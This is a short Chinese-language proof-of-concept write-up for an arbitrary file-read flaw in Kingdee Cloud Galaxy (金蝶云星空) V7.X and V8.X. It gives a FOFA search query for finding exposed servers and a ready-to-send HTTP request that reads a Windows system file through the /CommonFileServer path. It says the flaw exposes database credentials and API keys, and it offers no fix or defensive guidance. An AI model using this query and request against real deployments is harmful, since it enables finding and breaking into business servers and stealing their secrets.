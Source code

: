 <a name="e6Em4"></a>
# 一、漏洞描述
```java
金蝶云星空V7.X、V8.X所有私有云和混合云版本存在一个通用漏洞，攻击者可利用此漏洞获取服务器上的任意文件，包括数据库凭据、API密钥、配置文件等，从而获取系统权限和敏感信息。
```
<a name="NpLPF"></a>
# 二、fofa搜索语法
```java
app="金蝶云星空-管理中心"
```
<a name="TNcUl"></a>
# 三、漏洞复现
```java
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host: 
accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719241554494-d084ba78-ad7e-4e11-8a7f-d353bb6feeb9.png#averageHue=%23fbfbfb&clientId=ud521e60a-9dae-4&from=paste&height=433&id=ud617e0de&originHeight=541&originWidth=1391&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=98253&status=done&style=none&taskId=u2965e494-80a3-487c-b0c0-1d6bc1bfe43&title=&width=1112.8)








